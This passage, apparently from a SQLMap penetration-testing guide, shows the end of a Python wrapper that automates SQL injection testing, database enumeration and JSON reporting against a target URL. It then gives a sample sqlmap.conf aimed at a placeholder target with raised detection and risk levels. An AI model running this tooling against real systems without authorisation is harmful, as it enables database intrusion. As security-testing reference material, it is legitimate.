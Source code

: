             self.results["databases"] = databases
            print(f"[+] Found {len(databases)} databases")
            return databases
        
        def generate_report(self):
            """Generate JSON report"""
            report = {
                "target": self.target,
                "timestamp": datetime.now().isoformat(),
                "results": self.results
            }
            
            filename = f"sqlmap_report_{int(time.time())}.json"
            with open(filename, 'w') as f:
                json.dump(report, f, indent=2)
            
            print(f"[+] Report saved to {filename}")

    if __name__ == "__main__":
        if len(sys.argv) != 2:
            print("Usage: python3 sqlmap_auto.py ")
            sys.exit(1)
        
        automator = SQLMapAutomator(sys.argv[1])
        if automator.test_vulnerability():
            automator.enumerate_databases()
        automator.generate_report()
:::

### Configuration Files

::: {.attack-vector .risk-low}
#### SQLMap Configuration

::: code-block
    # Create sqlmap.conf configuration file
    [Target]
    url = http://target.com/page?id=1
    data = 
    cookie = 
    headers = User-Agent: Custom Agent 1.0

    [Request]
    method = GET
    delay = 1
    timeout = 30
    retries = 3
    randomAgent = True
    mobile = False

    [Detection]
    level = 3
    risk = 2
    techniques = BEUST
    dbms = 
    os = 
